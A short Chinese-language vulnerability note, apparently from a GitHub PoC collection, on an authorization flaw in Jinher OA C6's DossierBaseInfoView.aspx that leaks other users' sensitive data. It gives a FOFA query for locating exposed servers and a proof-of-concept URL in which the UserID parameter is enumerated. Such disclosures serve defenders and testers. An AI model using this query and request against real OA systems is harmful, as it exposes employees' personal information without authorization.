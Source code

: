 # 金和OA C6 DossierBaseInfoView.aspx 后台越权信息泄露漏洞

## 漏洞描述

金和OA C6 存在越权信息泄露漏洞，普通用户登录后可以通过遍历ID编号获取管理员及其他用户的敏感信息

## 漏洞影响

```
金和OA C6
```

## FOFA

```
app="Jinher-OA"
```

## 漏洞复现

使用普通用户登录 OA应用后台

访问的POC为

```plain
http://xxx.xxx.xxx.xxx/C6/JHSoft.Web.Dossier/DossierBaseInfoView.aspx?CollID=1&UserID=RY120330
```

- 注意 RY120330 需要为确定的其他的用户编号

![1](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202090135010.png)

泄露了部分的敏感信息

## 参考文章

https://mp.weixin.qq.com/s/gwHQVIZeMWfT8a5lBX_4WA